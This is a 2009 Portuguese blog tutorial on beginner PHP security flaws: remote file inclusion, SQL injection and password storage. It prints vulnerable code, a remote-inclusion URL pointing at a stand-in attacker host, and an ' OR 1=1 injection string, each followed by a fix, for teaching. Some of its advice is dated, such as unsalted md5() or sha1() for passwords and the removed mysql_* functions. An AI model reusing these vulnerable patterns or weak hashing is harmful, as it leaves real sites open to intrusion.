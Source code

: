 ```yaml
---
layout: post
title: Principais falhas de segurança no PHP
excerpt: Veja um pouco sobre cada uma das principais falhas de segurança criadas pelos
  iniciantes em PHP e que podem deixar um site de portas abertas para o mundo...

date: '2009-03-24 20:08:33 -0300'
categories:
- PHP
- Artigos
- Segurança
tags: []
---
```

Hoje vou falar sobre alguns erros comuns que são cometidos por programadores que estão começando agora. Resolvi fazer esse post pois vejo diariamente em fóruns de PHP pessoas com erros em scripts que possuem rombos enormes de segurança...

Não prometo deixar o seu sistema tão protegido quanto o <a title="Cadillac One" href="/arquivos/2009/03/cadillac-one.jpg" target="_blank"><em>carro do Obama</em></a> mas, sem dúvida, você vai evitar que muita gente faça um estrago considerável no seu site.

Se você se identificar com algumas dessas medidas não saia correndo e se jogue da ponte... Faça os devidos ajustes e tudo ficará bem.

<h4>Cuidados com a URL - Parte I</h4>
Uma falha muito comum são aqueles sites que, tentando usar um sistema "legal", acabam abusando da sorte... São sites que incluem o conteúdo <span style="color: #999999;">(via <strong>include()</strong>)</span> baseado em uma variável do método $_GET. Exemplo:


[code language="php"]
<?php
	// Verifica se a variável $_GET['pagina'] existe
	if (isset($_GET['pagina'])) {
		// Pega o valor da variável $_GET['pagina']
		$arquivo = $_GET['pagina'];
	} else {
		// Se não existir variável, define um valor padrão
		$arquivo = 'home.php';
	}
	include ($arquivo); // Inclui o arquivo
?>
[/code]

E na URL do site ficaria:
<span style="color: #008080;">http://www.meusite.com.br/?<span style="color: #0000ff;">pagina=contato.php</span></span>

Com isso o "invasor" pode, por exemplo, colocar um caminho de um script externo no lugar da variável:
<span style="color: #008080;">http://www.meusite.com.br/?<span style="color: #0000ff;">pagina=<span style="color: #ff0000;">http://sitedumal.net/deleta-banco.php</span></span></span>

O seu site incluiria o arquivo normalmente e executaria tudo que existe dentro dele... O resto você já pode imaginar.

Evitar que isso aconteça é extremamente simples: é só criar um <em>array </em>contendo os nomes dos arquivos que poderão ser incluídos, dessa forma:


[code language="php" wrap="false"]
<?php
	// Define uma lista com os arquivos que poderão ser chamados na URL
	$permitidos = array('home.php', 'produtos.php', 'contato.php', 'empresa.php');

	// Verifica se a variável $_GET['pagina'] existe E se ela faz parte da lista de arquivos permitidos
	if (isset($_GET['pagina']) AND (array_search($_GET['pagina'], $permitidos) !== false)) {
		// Pega o valor da variável $_GET['pagina']
		$arquivo = $_GET['pagina'];
	} else {
		// Se não existir variável $_GET ou ela não estiver na lista de permissões, define um valor padrão
		$arquivo = 'home.php';
	}
	include ($arquivo); // Inclui o arquivo
?>
[/code]

Viu? Adicionamos uma única linha e mais uma condição e está tudo resolvido. Com isso, se o atacante colocar lá o site dele na URL do seu site o PHP vai identificar que a variável <strong>$_GET['pagina']</strong> existe mas não está no <em>array </em><strong>$permitidos</strong>, então ele vai incluir o arquivo <strong>home.php</strong>.

<h4>Cuidados com a URL - Parte II</h4>
Outro erro comum é quando passamos parâmetros pela URL, por exemplo: o ID de uma categoria ou de um produto que, mais tarde, será buscado direto no banco para recolher algumas informações.

Geralmente o formato é o seguinte:
<span style="color: #008080;">http://www.meusite.com.br/produtos.php?<span style="color: #0000ff;">id=12</span></span>
ou
<span style="color: #008080;">http://www.meusite.com.br/?pagina=produtos.php&<span style="color: #0000ff;">id=12</span></span>

Com isso <span style="color: #999999;">(se você não se preparar) </span>você deixa uma porta aberta para um ataque famoso chamado <strong>SQL-Injection</strong> que nada mais é do que a inserção de um código SQL em um campo de texto ou parâmetro da URL que será enviado diretamente para o banco. Vamos a um exemplo:


[code language="php" highlight="9"]
<?php
// Formato da URL:
//  http://www.meusite.com.br/produtos.php?id=12

// Salva o parâmetro da URL numa variável
$produto = $_GET['id'];

// Monta a consulta MySQL
$sql = "SELECT * FROM `produtos` WHERE `id` = '".$produto."' LIMIT 1";

// Executa a query
$query = mysql_query($sql);

// Salva o resultado (em formato de array) em uma variável
$resultado = mysql_fetch_assoc($query);

?>
[/code]

A sua consulta ao MySQL ficaria da seguinte forma:


[code language="sql" light="true"]
SELECT * FROM `produtos` WHERE `id` = '12' LIMIT 1
[/code]

Até aqui tudo bem.. Seu script funciona, você tem o que precisa e tá tudo na mais perfeita harmonia... Mas chega um <span style="text-decoration: line-through;">desocupado</span> invasor e modifica a sua URL deixando da seguinte forma:

<span style="color: #008080;">http://www.meusite.com.br/produtos.php?<span style="color: #0000ff;">id=<span style="color: #ff0000;">' OR 1=1 OR ''='</span> </span></span>

Agora a sua query MySQL fica assim:


[code language="sql" light="true"]
SELECT * FROM `produtos` WHERE `id` = '' OR 1=1 OR '' = '' LIMIT 1
[/code]

Viu o que aconteceu? As possíveis condições para a consulta ser verdadeira são: id igual a vazio, 1 igual a 1 e vazio igual a vazio... Essa consulta vai ser dada como verdadeira e todos os produtos serão retornados. Sim meu amigo, é o fim do mundo.

Mas, como eu disse, não estou aqui para te assustar e sim para mostrar como resolver o pepino... Vamos a uma atitude simples mas que te salvará do Apocalipse... É só mudar uma linha:


[code language="php"]
// Salva o parâmetro da URL numa variável obrigando-o a ser um valor inteiro
$produto = (int)$_GET['id'];
[/code]

Com isso eu digo que valor da variável <strong>$produto</strong> será igual ao <strong>valor inteiro</strong> <span style="color: #999999;">(<em>int </em>de integer)</span> da variável <strong>$_GET['id']</strong>. Problema resolvido meus caros!

Se o atacante colocar uma string como parâmetro <span style="color: #999999;">(todo SQL-Injection é uma string)</span> ela será convertida para inteiro... E o valor inteiro de uma string é igual a zero.  8-)

Peço <span style="color: #ff0000;"><strong>atenção dobrada</strong></span> para o entendimento desse último exemplo pois o <strong>SQL-Injection</strong> é o ataque mais comum dos últimos tempos.

Caso você passe parâmetros via URL que são strings e não números inteiros, você pode usar a função <strong>mysql_real_escape_string()</strong> da seguinte forma:


[code language="php"]
$parametro = mysql_real_escape_string($_GET['nome']);
[/code]

Com isso você evita o uso de aspas e caracteres protegidos do MySQL mantendo a sua <em>query </em>segura. Esse caso também vale para formulários dos quais os dados vão direto para consultas MySQL <span style="color: #999999;">(formulários de login, cadastro e comentários, por exemplo)</span>.

<h4>Sobre Usuários e Senhas</h4>
Outro ponto muito importante é não exibir, em momento algum, o nome de login <span style="color: #999999;">(usuário)</span> de algum usuário cadastrado no sistema. Lembre-se que para um usuário conseguir invadir a conta do outro ele precisa de duas coisas: usuário <span style="color: #999999;">(ou e-mail)</span> e a senha.. Se ele souber o usuário já tem 50% de sucesso.

Vale lembrar também que você <strong>não precisa</strong> deixar a senha do usuário na forma real quando salva-la no banco. É muito mais seguro salvar um <strong>md5() </strong>ou <strong>sha1()</strong> da senha no banco e quando for necessário fazer a validação do usuário você também gera o <strong>md5()</strong> ou <strong>sha1()</strong> da senha que ele digitou e compara com o que há no banco. Assim, se por ventura alguém conseguir invadir e pegar todos os registros do banco de usuários, o máximo que ele irá conseguir são o usuário/e-mail e uma senha criptografada.

Se quiser saber como funciona criptografica no PHP é só ver esse post:» <a href="/criptografia-no-php-usando-md5-sha1-e-base64">Criptografia no PHP usando md5, sha1 e base64</a>

Espero que tenham gostado. :)

